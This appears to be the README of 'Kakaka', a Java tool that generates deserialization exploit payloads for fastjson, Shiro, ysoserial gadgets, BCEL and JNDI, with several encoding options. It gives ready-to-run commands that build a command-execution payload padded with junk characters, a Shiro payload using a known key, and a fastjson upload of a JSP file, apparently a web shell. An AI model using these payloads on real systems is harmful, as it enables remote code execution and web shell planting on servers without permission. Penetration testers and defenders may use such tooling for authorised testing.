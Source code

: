 # Kakaka

## 🎉  2.0 改为交互式

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211215154823.png)

## 🍭 目前功能

生成fastjson、yso(只添加了一点点，需要的可自行编译)、bcel、shiro、dnslog find gadget等多种payload
支持url、base64、xml、html编码

## 💡生成各种payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211215154842.png)

java -jar Kakaka.jar yso CommonsBeanutils1 -c whoami -d 2000 -raw 生成一个带2000个脏字符的原始payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204631.png)
 
java -jar Kakaka.jar shiro -g CommonsBeanutils1 -c whoami -k a3dvbmcAAAAAAAAAAAAAAA== 指定key和gadget生成shiro payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204714.png)

java -jar Kakaka.jar fastjson upload -lf dogma.jsp -rf /tmp/dogma.jsp 生成fastjson文件上传payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204800.png)

java -jar Kakaka.jar fastjson jndi -u 127.0.0.1 

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204823.png)

## 支持编码

按照参数顺序编码

支持：

  -ue  url编码
  
  -he  html编码
  
  -be  base64编码
  
  -xe  xml编码


## 参考

@kezibei https://github.com/kezibei/Urldns

@c0ny1 https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/